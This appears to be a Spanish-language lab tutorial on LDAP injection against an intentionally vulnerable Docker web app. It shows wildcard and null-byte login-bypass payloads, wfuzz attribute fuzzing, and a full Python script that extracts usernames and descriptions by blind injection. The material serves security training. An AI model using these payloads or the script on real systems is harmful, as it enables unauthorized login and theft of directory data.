# Inyecciones LDAP


## ¿Qué es LDAP?

Se trata de un conjunto de protocolos de licencia abierta que son utilizados para acceder a la información que está almacenada de forma centralizada en una red.

Un directorio remoto es un **conjunto de objetos que están organizados de forma jerárquica**, tales como nombre claves direcciones, etc. Estos objetos estarán disponibles por una serie de cliente conectados mediante una red, normalmente interna o LAN, y proporcionarán las identidades y permisos para esos usuarios que los utilicen.

LDAP está basado en el **protocolo X.500** para compartir directorios, y contiene esta información de forma jerarquizada y mediante categorías para proporcionarnos una estructura intuitiva desde el punto de vista de la gestión por parte de los administradores. Es, por así decirlo, una guía telefónica, pero con más atributos y credenciales. En este caso utilizamos el término directorio para referirnos a la organización de estos objetos.

De forma general, estos directorios se utilizan básicamente para contener información virtual de usuarios, para que otros usuarios accedan y dispongan de información acerca de los contactos que están aquí almacenados. Pero es mucho más que esto, ya que **es capaz de comunicarse de forma remota con otros directorios LDAP** situados en servidores que pueden estar en el otro lado del mundo para acceder a la información disponible. De esta forma se crea una base de datos de información descentralizada y completamente accesible.

**Más información:** [https://www.profesionalreview.com/2019/01/05/ldap/](https://www.profesionalreview.com/2019/01/05/ldap/)

## Instalación de Laboratorio

```bash
git clone https://github.com/motikan2010/LDAP-Injection-Vuln-App
```

Ahora se debe modificar la primera línea del archivo Dockerfile; de “FROM php:7.0-apache**”** a “FROM php:8.0-apache**”:**



```bash
cd LDAP-Injection-Vuln-App
docker run -dit -p 389:389 --name openldap-container --detach osixia/openldap:1.2.2
docker build -t ldap-client-container .
docker run -dit --link openldap-container -p 8888:80 ldap-client-container
```

Las credenciales para el usuario admin en el servidor LDAP son:

```bash
user: admin
password: admin
```

## Listar información con “ldapsearch”

Ldapsearch es una herramienta de línea de comandos disponible en proveedores de servidores LDAP que puede utilizar para verificar la información de LDAP antes de la configuración y para solucionar los problemas que encuentre durante la configuración.

```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org 
-D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'

-b dc="",dc="" # Corresponde a la base de búsqueda, aqui 
# se escribe el nombre del dominio

-D "" # Se ingresa el Distinguished Name

-w <contraseña> # Se ingresa la contraseña de en este 
# caso, del usuario admin

-x # Indica el modo "Single Authentication", se usa este 
# modo si se tienen credenciales válidas: usuario y 
# contraseña

# El último argumento 'cn=admin' corresponde a un criterio 
# de búsqueda, es decir, un filtrado. No es obligatorio.
```



Con filtro



Sin filtro

## ¿Cómo enumerar los nombres de dominio?

Se puede utilizar una serie de scripts LUA de nmap para lanzar un reconocimiento de los nombres de dominios:

```bash
nmap --script ldap\* -p389 localhost
```



## Métodos de filtrado

Por ejemplo, filtrará por información de un usuario que se llame admin y con cualquier descripción:

Esquema de filtrado:

```bash
'(&()())' # Con el operador "&" se indicará que se quiere 
# filtrar por dos RDNs en los cuales ambos 
# son válidos
```

```bash
ldapsearch -x -H ldap://localhost -b "dc=example,dc=org" 
-D "cn=admin,dc=example,dc=org" -w admin 
'(&(cn=admin)(description=*))'
```



## Sistema de logueo

Se analizará un poco cómo funciona el método de validación de credenciales de la pagina web por detrás.

Primero se establecen dos variables las cuales almacenarán lo que el usuario ingrese en el input por POST:



Luego se aplica una sintaxis especial o query para hacer un filtrado del usuario y contraseña ingresados por el usuario para buscarlo en la base de datos LDAP:



Otra forma de representar esta query es de la siguiente forma:

```bash
(&
	(cn=admin)
	(userPassword=admin)
)
```

Otras formas más complejas son como la siguiente en la que se utiliza un operador OR (|) y dos AND (&), se interpretaría diciendo que se quiere buscar por dos opciones: un usuario “admin” con “edad=15” o un usuario admin con “rol=pentester”:

```bash
(|
	(&
		(user=admin)
		(edad=15)
	)

	(&
		(user=admin)
		(rol=pentester)
	)
)

#~~~~~~~Esqueleto de query~~~~~~~~#
(|
	(&
		()
		()
	)

	(&
		()
		()
	)
)
```

## LDAP Injection - Evasión de logueo

### Ejemplo #1

Resulta que en LDAP, se pueden usar asteriscos de forma que se puede se pueden aplicar querys como la siguiente

```bash
(&
	(user=admin)
	(userPassword=*)
)
```

Esto lo que hará es seleccionar el usuario admin y como contraseña se le indica un asterisco para hacer referencia a cualquier cosa. Debido a que el método de validación utilizado en la página web no está correctamente sanitizado, se podría utilizar este tipo de querys para evadir esta validación.

Por ejemplo, en el portal de autenticación se ingresará el usuario “admin” y como contraseña, un asterisco “*”, esto evadirá la validación y logueará como el usuario admin:





### Ejemplo #2

Otra forma de evadir el logueo es cerrando la query de forma que solo se interprete el usuario que se autenticará omitiendo la contraseña:

```bash
# Query normal
(&(cn=admin)(userPassword=loquesea))

# Evasión
(&(cn=admin))%00)(userPassword=loquesea))
```





Después de copiar la cookie de sesión, se sigue el redirect y se agrega el campo “Cookie:” en la petición con un espacio debajo, luego se manda la petición.

## LDAP Injection - Enumerar usuarios válidos



En el código, cuando se ingresan las credenciales válidas, se aplica un redirect a la raíz.

Al interceptar esta petición por burpsuite, cuando se ingresan credenciales incorrectas, el mensaje de respuesta es un “200 OK”:



Sin embargo, como se vio anteriormente, la validación que utiliza la web, no está correctamente sanitizada y se pueden hacer querys como la siguiente:



De esta forma se está haciendo alusión a un usuario que empiece con la letra “a” con cualquier contraseña. Como sí existe un usuario que empiece con la letra “a”, se aplica el redirect, por lo tanto, se tiene una forma potencial de listar usuarios válidos, por ejemplo, se podría ahora intentar con “aa*”, “ab*”, “ac*”, etc. para conocer cuál es el siguiente caracter del usuario con base en la respuesta que de el servidor

## Creación de usuarios en LDAP

En este lab, hay una plantilla que se puede usar para crear usuarios, esta se encuentra en la máquina que corre el servidor LDAP, en el siguiente archivo: “/container/service/slapd/assets/test/new-user.ldif”.



*Hay que tomar en cuenta que estos atributos como “mail”, “telephoneNumber”, etc. se contemplan en el archivo “/etc/ldap/schema/core.schema” y no se pueden crear nuevos atributos si no están contemplados en este archivo primero.*



Para crear un usuario, primero se crea un nuevo archivo en la máquina local con el nombre “newuser.ldiff” utilizando la plantilla anteriormente mostrada:

- Plantilla
    
    ```bash
    dn: uid=bryan,dc=example,dc=org
    uid: bryan
    cn: bryan
    sn: 3
    objectClass: top
    objectClass: posixAccount
    objectClass: inetOrgPerson
    loginShell: /bin/bash
    homeDirectory: /home/bryan
    uidNumber: 14583102
    gidNumber: 14564100
    userPassword: dancer
    mail: bryan@hack4u.com
    description: Hola soy bryan
    telephoneNumber: 123456789
    ```
    



Ahora se agrega el usuario con el siguiente comando:

```bash
ldapadd -x -H ldap://localhost 
-D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldiff
```



En este caso, se agregarán varios usuarios: kim, pedro, bryan y julia

## Fuzzing - Atributos válidos

A atributos se refiere a “mail“, “telephoneNumber”, “userPassword”, etc. Además de estos, hay muchos atributos que se podrían estar usando por lo que para fuzzear atributos válidos, se utilizará un lista de palabras como la de SecLists la cual contempla una lista con muchos nombres de atributos.

Estos parámetros se pueden fuzzear con una query como la siguiente:

```bash
(&
	(user=bryan)
	(FUZZ=*))%00
	(userPassword=loquesea)
)
```

En donde está la palabra FUZZ es donde ira el parámetro a FUZZEAR y luego se cierra la query con un paréntesis y un null byte.

Con wfuzz, esto sería de esta forma:

```bash
wfuzz -c -w /usr/share/wordlists/SecLists/
Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)
(FUZZ=*))%00&password=loquesea&login=1&submit=Submit'
http://localhost:8888
```


Debido a que hay muchas respuestas que devuelven la misma cantidad de caracteres, se hará un filtrado para mostrar resultados con caracteres diferentes

```bash
wfuzz -c --hh=550 -w /usr/share/wordlists/SecLists/
Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)
(FUZZ=*))%00&password=loquesea&login=1&submit=Submit'
http://localhost:8888
```



## Script en Python

Este script sirve para descubrir usuarios válidos junto con sus descripciones

- Script
    
    ```bash
    #!/usr/bin/python3
    
    import requests
    import time
    import sys
    import signal
    import string
    
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n[!] Exiting...\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    # Variables globales
    main_url = "http://localhost:8888"
    
    # Configurar proxy [OPCIONAL]
    #burp = {'http': 'http://127.0.0.1:8080'}
    
    def getInitialUsers():
    
    	header = {'Content-Type': 'application/x-www-form-urlencoded'}
    
    	characters = string.ascii_lowercase
    
    	initial_users = []
    
    	for character in characters:
    
    		post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
    
    		# Añadir "proxies=burp" al final si se utilizará el proxy
    		r = requests.post(main_url, data=post_data, headers=header, allow_redirects=False)
    
    		if r.status_code == 301:
    			initial_users.append(character)
    
    	return initial_users
    
    def getUsers(initial_users):
    
    	characters = string.ascii_lowercase
    	
    	header = {'Content-Type': 'application/x-www-form-urlencoded'}
    	valid_users = []
    
    	for first_character in initial_users:
    
    		user = ""
    
    		for position in range(0, 15):
    			for character in characters:
    
    				post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
    				r = requests.post(main_url, data=post_data, headers=header, allow_redirects=False)
    				
    				if r.status_code == 301:
    					user += character
    					break
    				
    		valid_users.append(first_character + user)
    
    	print("\n")
    
    	for user in valid_users:
    		log.info("Usuario válido encontrado: %s" % user)
    
    	print("\n")
    
    	return valid_users
    
    def getDescription(user):
    
    	characters = string.ascii_lowercase + ' '
    	
    	header = {'Content-Type': 'application/x-www-form-urlencoded'}
    
    	description = ""
    	
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando proceso de fuerza bruta")
    	
    	p2 = log.progress("Descripción")
    	
    	for position in range(0, 50):
    		for character in characters:
    			
    			post_data = "user_id={})(description={}{}*))%00&password=*&login=1&submit=Submit".format(user, description, character)
    			
    			r = requests.post(main_url, data=post_data, headers=header, allow_redirects=False)
    	
    			if r.status_code == 301:
    				description += character
    				p2.status(description)
    				break
    	
    	p1.success("Proceso de fuerza bruta concluido")
    	p2.success("La descripción del usuario %s es: %s" % (user, description))
    	
    	print("\n")
    
    if __name__ == '__main__':
    
    	initial_users = getInitialUsers()
    	valid_users = getUsers(initial_users)
    	
    	for i in range(0, 5):
    		getDescription(valid_users[i])
    	
    	
    	print(valid_users)
    ```
